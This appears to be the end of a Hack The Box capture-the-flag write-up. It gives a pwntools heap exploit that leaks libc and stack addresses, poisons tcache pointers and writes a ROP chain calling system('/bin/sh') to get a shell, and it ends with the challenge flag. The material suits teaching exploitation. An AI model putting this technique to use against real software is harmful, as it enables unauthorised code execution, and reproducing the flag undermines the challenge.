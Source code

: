 ```py
edit(b'3\x003',b'1',b'a')

#Re-allocate it
create(b'4',0x10,b'E'*0x10)
#Overflow the size of chunk 4 so it becomes 0x421 big
edit(b'1',b'3\x003',b'A'*0x10 + p64(0x21) + b'A'*0x18 + p64(0x421))
#Free chunk 4
delete(b'4')

#Restore the first chunk to original name
edit(b'3\x003',b'1',b'a')
#Overflow up to the libc ptr in chunk 4 to leak
edit(b'1',b'3\x003',b'A'*0x38)
libc_leak = u64(show_rune(b'2').split(b'A'*0x18)[1][:-1].ljust(8,b'\x00'))
libc_base = libc_leak - 0x1f2cc0
log.info(f"LIBC BASE: {libc_base:#x}")


libc_argv = libc_base+0x1f46e0
over_write_val = obfuscate(heap_base,libc_argv-0x10)

#Overwrite free ptr with __libc_argv address
delete(b'E')
delete(b'F')
delete(b'G')

edit(b'D',b'5\x005',b'A'*0x10+p64(0x21)+b'A'*0x20 + p64(over_write_val))

create(b'E',0x10,b'H'*0x10)
create(b'F',0x10,b'H'*0x10)
create(b'G',0x10,b'A'*8)

#Leak stack
stack_leak = u64(show_rune(b'G')[8:-1].ljust(8,b'\x00'))
log.info(f"STACK LEAK: {stack_leak:#x}")

edit(b'5\x005',b'D',b'a')

#Overwrite free pointer with return pointer address of edit
delete(b'I')
delete(b'H')
delete(b'J')

ret_ptr = stack_leak-0x148
edit(b'K',b'5\x005',b'A'*0x28 + p64(obfuscate(heap_base,ret_ptr)))
create(b'L',0x20,b'a')
create(b'M',0x20,b'b')

#Allocate a ROP chain.
poprdi = p64(libc_base+0x000000000002daa2)
binsh = p64(libc_base+0x001b4689)
system = p64(libc_base+0x4e320)

create(b'N',0x20,poprdi+binsh+system)

io.interactive()
```

## Flag
`HTB{k1ng_0f_h4sh1n_4nd_m4st3r_0f_th3_run3s}`